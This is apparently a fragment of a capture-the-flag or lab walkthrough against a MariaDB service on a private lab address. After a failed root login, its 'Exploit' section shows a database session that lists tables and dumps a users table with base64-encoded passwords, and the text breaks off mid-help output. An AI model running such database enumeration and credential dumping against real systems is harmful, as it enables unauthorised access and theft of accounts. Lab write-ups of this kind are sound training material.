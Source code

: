 ```bash

?>
```

### 192.168.56.103 - 3306

```bash
mysql -u root --host 192.168.56.103
ERROR 1045 (28000): Access denied for user 'root'@'192.168.56.102' (using password: NO)
```

### Exploit

#### passwords

```sql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 123
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.001 sec)

MySQL [(none)]> use Users
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.001 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.001 sec)

MySQL [(none)]> help;

General information about MariaDB can be found at
http://mariadb.org

List of all MySQL commands:
Note that all text commands must be first on line and end with ';'
```